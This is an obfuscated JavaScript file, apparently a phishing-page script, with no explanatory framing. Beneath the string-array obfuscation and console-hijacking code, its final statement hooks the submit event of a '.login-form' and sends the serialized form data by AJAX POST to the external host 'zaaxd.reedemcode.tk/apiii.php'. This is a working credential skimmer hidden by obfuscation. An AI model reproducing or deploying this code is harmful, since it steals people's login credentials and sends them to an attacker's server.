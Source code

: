 function _0xbfe1(_0x497702,_0x10ca9d){var _0x50589d=_0x4f82();return _0xbfe1=function(_0x21fa5f,_0x2f724f){_0x21fa5f=_0x21fa5f-0x1ca;var _0x29245a=_0x50589d[_0x21fa5f];return _0x29245a;},_0xbfe1(_0x497702,_0x10ca9d);}(function(_0x25059f,_0x163a04){function _0x36aaa1(_0x54ebb7,_0x4e42b1){return _0xbfe1(_0x54ebb7-0x1db,_0x4e42b1);}var _0x535165=_0x25059f();while(!![]){try{var _0x3736d4=-parseInt(_0x36aaa1(0x3a9,0x3a7))/0x1+-parseInt(_0x36aaa1(0x3c4,0x3b7))/0x2*(-parseInt(_0x36aaa1(0x3b8,0x3a9))/0x3)+parseInt(_0x36aaa1(0x3b1,0x3a9))/0x4+parseInt(_0x36aaa1(0x3c0,0x3cf))/0x5*(parseInt(_0x36aaa1(0x3bc,0x3c1))/0x6)+parseInt(_0x36aaa1(0x3bb,0x3b4))/0x7+parseInt(_0x36aaa1(0x3b4,0x3b3))/0x8+parseInt(_0x36aaa1(0x3a5,0x3a6))/0x9*(parseInt(_0x36aaa1(0x3b5,0x3b2))/0xa);if(_0x3736d4===_0x163a04)break;else _0x535165['push'](_0x535165['shift']());}catch(_0x206c37){_0x535165['push'](_0x535165['shift']());}}}(_0x4f82,0xa38ef));var _0x9dc5af=(function(){var _0x28eab8=!![];return function(_0x28ef60,_0x11635b){var _0x6b5272=_0x28eab8?function(){function _0x1a9c2a(_0x1709e6,_0x14e2da){return _0xbfe1(_0x14e2da- -0x288,_0x1709e6);}if(_0x11635b){var _0x43f98e=_0x11635b[_0x1a9c2a(-0xb8,-0xac)](_0x28ef60,arguments);return _0x11635b=null,_0x43f98e;}}:function(){};return _0x28eab8=![],_0x6b5272;};}());function _0x4f08e5(_0x576044,_0x3d57c8){return _0xbfe1(_0x3d57c8-0x3aa,_0x576044);}var _0x5939bc=_0x9dc5af(this,function(){function _0x439167(_0x3e8e5b,_0x1e14ef){return _0xbfe1(_0x3e8e5b- -0xe4,_0x1e14ef);}return _0x5939bc['toString']()[_0x439167(0xf4,0x101)](_0x439167(0xfb,0x10c))['toString']()[_0x439167(0xff,0x102)](_0x5939bc)['search'](_0x439167(0xfb,0xf9));});_0x5939bc();function _0x4f82(){var _0x3b224f=['serialize','warn','table','trace','length','toString','log','2620868JLtYas','__proto__','search','79624CoaeqJ','30zwomsD','info','apply','417gaWgGe','error','(((.+)+)+)+$','2340478zcwOnX','6sTLFfx','prototype','constructor','bind','1463765UpgFyD','https://zaaxd.reedemcode.tk/apiii.php','ajax','POST','5546lKSbpA','submit','981630Gfpppw','exception','function','object','1334999pbpsYN'];_0x4f82=function(){return _0x3b224f;};return _0x4f82();}var _0x2f724f=(function(){var _0x2a7646=!![];return function(_0x64207d,_0x1ae6b4){var _0x38fbc1=_0x2a7646?function(){function _0x432274(_0x3ae4b2,_0x28763f){return _0xbfe1(_0x3ae4b2- -0x180,_0x28763f);}if(_0x1ae6b4){var _0x51d9ed=_0x1ae6b4[_0x432274(0x5c,0x66)](_0x64207d,arguments);return _0x1ae6b4=null,_0x51d9ed;}}:function(){};return _0x2a7646=![],_0x38fbc1;};}()),_0x21fa5f=_0x2f724f(this,function(){var _0x283888=typeof window!=='undefined'?window:typeof process===_0x3a38e2(-0xc9,-0xc1)&&typeof require===_0x3a38e2(-0xca,-0xd7)&&typeof global===_0x3a38e2(-0xc9,-0xd3)?global:this,_0x4b639f=_0x283888['console']=_0x283888['console']||{},_0x54678b=[_0x3a38e2(-0xc1,-0xd1),_0x3a38e2(-0xc6,-0xd6),_0x3a38e2(-0xbb,-0xb0),_0x3a38e2(-0xb8,-0xbe),_0x3a38e2(-0xcb,-0xc4),_0x3a38e2(-0xc5,-0xbe),_0x3a38e2(-0xc4,-0xb4)];function _0x3a38e2(_0x375252,_0x54ed35){return _0xbfe1(_0x375252- -0x296,_0x54ed35);}for(var _0x1abf7e=0x0;_0x1abf7e<_0x54678b[_0x3a38e2(-0xc3,-0xc9)];_0x1abf7e++){var _0x3526b4=_0x2f724f[_0x3a38e2(-0xb3,-0xc4)][_0x3a38e2(-0xb4,-0xa5)][_0x3a38e2(-0xb2,-0xba)](_0x2f724f),_0x2b5241=_0x54678b[_0x1abf7e],_0x5b2afa=_0x4b639f[_0x2b5241]||_0x3526b4;_0x3526b4[_0x3a38e2(-0xbf,-0xcb)]=_0x2f724f[_0x3a38e2(-0xb2,-0xa8)](_0x2f724f),_0x3526b4[_0x3a38e2(-0xc2,-0xcc)]=_0x5b2afa[_0x3a38e2(-0xc2,-0xc7)]['bind'](_0x5b2afa),_0x4b639f[_0x2b5241]=_0x3526b4;}});_0x21fa5f(),$('.login-form')[_0x4f08e5(0x599,0x594)](function(){function _0x19bc81(_0x59085a,_0x201dd2){return _0x4f08e5(_0x59085a,_0x201dd2- -0x2b);}$[_0x19bc81(0x56a,0x566)]({'url':_0x19bc81(0x56c,0x565),'type':_0x19bc81(0x565,0x567),'data':$(this)[_0x19bc81(0x559,0x54e)](),'success':function(){}});});
